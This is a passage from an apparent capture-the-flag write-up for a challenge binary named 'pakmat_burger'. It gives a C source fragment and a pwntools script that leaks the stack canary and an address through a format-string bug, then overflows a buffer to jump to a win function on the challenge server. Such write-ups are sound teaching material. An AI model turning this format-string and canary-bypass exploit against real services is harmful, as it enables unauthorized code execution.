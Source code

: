 ```c
      printf("Please provide your phone number, we will delivered soon: ");
      return (unsigned int)fgets(s, 100, stdin);
    }
    else
    {
      puts("Sorry, the secret message is incorrect. Exiting...");
      return 0;
    }
  }
  else
  {
    puts("Error: SECRET_MESSAGE environment variable not set. Exiting...");
    return 1;
  }
}
```
In this challenge, the secret always stay the same, therefore it is possible to hardcode it into the solution. From this, we can then leak the necessary addresses and carry out the exploit to get the flag.

## solution
```py
from pwn import *

#p = process('./pakmat_burger')
p = remote('13.229.84.41', 10003)

p.sendline(b'%13$p.%17$p')

p.recvuntil(b'Hi ')

secret = b'8d7e88a8'
canary = p.recvuntil(b'.').strip(b'.')
leak = p.recvuntil(b',').strip(b',')

print(secret)
print(canary)
print(leak)

win = int(leak, 16) - 0x1a
ret = int(leak,16) + 0x18a
print(win)
p.sendline(secret)

p.sendline(b'a')

payload = b'A' * 0x25
payload += p64(int(canary, 16))
payload += b'A' * 8
payload += p64(ret)
payload += p64(win)

p.sendline(payload)


p.interactive()
```
